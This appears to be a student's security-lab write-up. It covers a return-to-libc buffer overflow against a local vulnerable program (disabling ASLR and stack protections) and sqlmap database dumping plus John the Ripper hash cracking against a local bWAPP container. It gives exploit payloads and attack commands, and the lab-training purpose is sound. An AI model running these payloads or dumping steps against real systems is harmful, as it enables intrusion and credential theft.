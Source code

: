 # Task1: Software buffer overflow attack
**Student ID: 22110038**
**Name:** Phan Triệu Huy 
## Setup env:
**Run docker env:** docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab
![image](https://github.com/user-attachments/assets/06cbf417-5575-4641-84b9-447a46c15091)
**Create file task1.c and vuln.c to inject code:**
vuln.c:

![image](https://github.com/user-attachments/assets/a641a96e-9d42-49d0-a25b-3de4469e76ea)
task1.c:

![image](https://github.com/user-attachments/assets/3a749cb1-2267-4ba3-9d32-6f2ba89c51d4)
 
 **setup:**
Ubuntu and several other Linux-based systems use address space randomization to randomize the starting address of heap and stack.This makes guessing the exact addresses difficult; guessing addresses is one of the critical steps of buffer-overflow attacks. In this lab, we disable this feature using the following command:
sudo sysctl -w kernel.randomize_va_space=0
![image](https://github.com/user-attachments/assets/f8d0b7c8-25c8-4755-b848-7fcc944dc4cd)

In both Ubuntu 12.04 and Ubuntu 16.04 VMs, the/bin/sh symbolic link points to the/bin/dash shell. The dash shell in Ubuntu 16.04 has a countermeasure that prevents itself from being executed in a Set-UID process. Basically, if dash detects that it is executed in a Set-UID process, it immediately changes the effective user ID to the process’s real user ID, essentially dropping the privilege.Since our victim program is aSet-UID program, and our attack relies on running/bin/sh, the countermeasure in/bin/dash makes our attack more difficult.
sudo ln -sf /bin/zsh /bin/sh
![image](https://github.com/user-attachments/assets/17c0f108-c688-4a62-92bf-0fad1ed11384)

Compile program with options to defeat stack protecting mechanism and code execution on stack:
gcc vuln.c -o vuln -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
![image](https://github.com/user-attachments/assets/19e982d1-dc96-47c9-9339-8a85eddcd3dd)
## Attack:
**overview:**
![image](https://github.com/user-attachments/assets/cc724258-5395-47b6-9409-69621a79c880)
because shellcode larger 16byte . So, I'll use ret-to-libc.
**export path task1.c to env:**
export mypath="/home/seed/seclabs/lab_exam/task1.c"
![image](https://github.com/user-attachments/assets/be7a33d1-2531-433c-893b-f402628c0fae)
**run debug:**
gdb ./vuln
start
![image](https://github.com/user-attachments/assets/cff40445-01c0-4ddd-9ec6-3382fde290cc)
**get address of system, exit, mypath:**
![image](https://github.com/user-attachments/assets/ddd26bf2-509b-404a-a29f-c3a82c84dcf5)

system: 0xf7e50db0  will be inserted with format \xb0\x0d\xe5\xf
exit: 0xf7e449e0  will be inserted with format \xe0\x49\xe4\xf7
mypath("/home/seed/seclabs/lab_exam/task1.c"): 0xffffdf14 to \x14\xdf\xff\xff
=> r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' '\xe0\x49\xe4\xf7' +  '\x14\xdf\xff\xff')")
![image](https://github.com/user-attachments/assets/3a191e29-6018-4a78-a450-237b57bfc60e)
=> it execute code C but i have bug. 
**run remove ^M**
cat -v task1.c
sed -i 's/\r$//' task1.c
before: 
![image](https://github.com/user-attachments/assets/54e994ff-8957-4a71-b27e-d51f1c991c21)
after: 
![image](https://github.com/user-attachments/assets/25aee0e4-767d-4e09-9a94-71a10ed713df)

**complie this code c to task1 and set sudo ./task1:**
gcc task1.c -o task1 -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
sudo ./task1

**now get address of task1 like each step above:**

**before attack:**
![image](https://github.com/user-attachments/assets/603431f1-e1fe-44d5-81da-17768aec7fce)
**after attack:**
![image](https://github.com/user-attachments/assets/4fdcfcd4-c549-4e68-8084-469c28001205)

# Task2: Attack on the database of bWapp 
## Install:
**Install bWapp:**
docker pull raesene/bwapp
docker run --rm -it -p 8025:80 raesene/bwapp
localhost:8025/install.php
![image](https://github.com/user-attachments/assets/d454d936-825b-4939-a906-d207ea620f13)

**Install sqlmap:**
![image](https://github.com/user-attachments/assets/bb57e17f-06cc-4090-8042-7c7d1090ca7c)

![image](https://github.com/user-attachments/assets/6d342a2b-4068-4b2a-b759-b9024843b461)

## question1:  Use sqlmap to get information about all available databases
**get cookies of web:**

![image](https://github.com/user-attachments/assets/131f0c6d-dc0d-46f8-acef-2655f0581e3c)

**get valiable tables:**
run: 
python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" --dbs --cookie "PHPSESSID=h6f6uromrvvjjk82mp26qv04g4; security_level=0"

![image](https://github.com/user-attachments/assets/83a79a5b-1806-49a6-826b-7e101ec81231)

## question2:  Use sqlmap to get tables, users information
**get tables:**
run: 
python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP --tables --cookie "PHPSESSID=h6f6uromrvvjjk82mp26qv04g4; security_level=0"

![image](https://github.com/user-attachments/assets/7f30c176-7beb-4e72-a5d4-d44f9ebbf4e9)

**get users information:**
run: 
python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP -T users --dump --cookie "PHPSESSID=h6f6uromrvvjjk82mp26qv04g4; security_level=0"
info of tables:

![image](https://github.com/user-attachments/assets/310dea9c-6304-4ba7-b3b7-3cf06dcc1d34)

data of tables:
![image](https://github.com/user-attachments/assets/cd36bebf-4431-41f1-a69d-c3f0b42e7ecf)

## question3:  Make use of John the Ripper to disclose the password of all database users from the above exploit
**run (to get and save file password):**
python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP -T users --dump --cookie "PHPSESSID=h6f6uromrvvjjk82mp26qv04g4; security_level=0" --output-dir= "C:\Users\LENOVO\Downloads"

![image](https://github.com/user-attachments/assets/ee10ed6a-11e8-49b1-b041-1eab3a4877a2)

because it is file .csv, so i'll convert it into file txt.
**code convert:**

![image](https://github.com/user-attachments/assets/1daa0695-8bdb-42bb-8ff6-240db1fddbbe)

ouput file hashes.txt: 

![image](https://github.com/user-attachments/assets/3020d8db-f1ef-4ff1-b9ca-198bc4fd2fab)

**run cracked:**
 ./john --incremental hashes.txt
 ![image](https://github.com/user-attachments/assets/8df31ea1-e2c3-414e-845b-2d1a5467d4fe)

 ./john --show hashes.txt
![image](https://github.com/user-attachments/assets/dd3d5d41-a1ae-4b7e-b0c4-7b6965e6491f)

so password is **bug**

**result:**
![image](https://github.com/user-attachments/assets/04431e25-9745-4667-91ff-97d0c8b64040)

![image](https://github.com/user-attachments/assets/25a2de92-b972-4c00-a999-834c5609efe6)

